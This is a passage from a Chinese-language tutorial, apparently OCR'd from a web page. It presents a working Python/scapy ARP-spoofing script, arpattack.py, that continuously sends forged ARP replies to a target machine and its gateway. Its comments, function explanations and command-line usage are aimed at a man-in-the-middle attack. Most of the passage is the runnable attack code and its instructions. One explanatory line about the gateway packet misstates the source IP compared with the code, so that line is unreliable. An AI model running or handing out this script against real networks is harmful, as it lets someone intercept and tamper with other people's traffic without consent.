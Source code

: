         tip=options.targetip
        gip=options.gatewayip
        spoof(interface,tip,gip)#将参数传给spoof函数
    else:
        parser.print_help()#显示帮助
        sys.exit(0)
def spoof(interface,tip,gip):#获取命令行的输入实现arp攻击
    localmac=get_if_hwaddr(interface)#get_if_hwaddr获取本地网卡MAC地址
    tmac=getmacbyip(tip)#根据目标ip获取其MAC地址
    gmac=getmacbyip(gip)#根据网关ip获取其MAC地址
    ptarget=Ether(src=localmac,dst=tmac)/ARP(hwsrc=localmac,psrc=gip,hwdst=tmac,pdst=tip,op=2)#构造arp响应包，欺骗目标机器网关的MAC地址为本机MAC地址
    pgateway=Ether(src=localmac,dst=gmac)/ARP(hwsrc=localmac,psrc=tip,hwdst=gmac,pdst=gip,op=2)#构造arp响应包，欺骗网关目标机器的MAC地址为本机MAC地址
    try:
        while 1:
            sendp(ptarget,inter=2,iface=interface)
            print "send arp reponse to target(%s),gateway(%s) macaddress is %s"%(tip,gip,localmac)
            sendp(pgateway,inter=2,iface=interface)
            print "send arp reponse to gateway(%s),target(%s) macaddress is %s"%(gip,tip,localmac)#不断发送arp响应包欺骗目标机器和网关，直到ctrl+c结束程序
    except KeyboardInterrupt:
        sys.exit(0)
if __name__=='__main__':
    main()
6.脚本使用到的scapy库中的几个函数
get_if_hwaddr("本地网卡名称（eth0/wlan0）")    根据所选择的本地网卡获取相应的本地网卡的MAC地址
图片

getmacbyip（"ip地址"）    根据ip地址获取其MAC地址，使用该函数实际上使用了一次arp协议，可以用此函数获取网关和目标的MAC地址
图片

ARP是构建ARP数据包的类，Ether用来构建以太网数据包，构造arp数据包并加上以太网头部

Ether(src=本地网卡MAC,dst=目标机器MAC)/ARP(hwsrc=本地网卡MAC,psrc=网关ip,hwdst=目标机器MAC,pdst=目标机器ip,op=2)
构造发送给目标机器的arp数据包，并加上以太网头部，欺骗目标机器网关的MAC为本机的MAC

Ether(src=本地网卡MAC,dst=网关MAC)/ARP(hwsrc=本地网卡MAC,psrc=网关ip,hwdst=网关MAC,pdst=网关ip,op=2)
构造发送给网关的arp数据包，并加上以太网头部，欺骗网关目标机器的MAC为本机的MAC

sendp函数发送我们构造的arp数据包    sendp(数据包, inter=2, iface=网卡)    sendp函数工作在网络的第二层
以上代码实现了类似于arpspoof工具的功能，使用方法，进入脚本目录，输入

python arpattack.py -h
查看脚本使用帮助

Usage: [-i interface] [-t targetip] [-g gatewayip]

Options:
    -h, --help    show this help message and exit
    -i INTERFACE  select interface(input eth0 or wlan0 or more)
    -t TARGETIP   select ip to spoof
    -g GATEWAYIP  input gateway ip
所以我们这样输入可以双向的欺骗网关和目标机器完中间人攻击

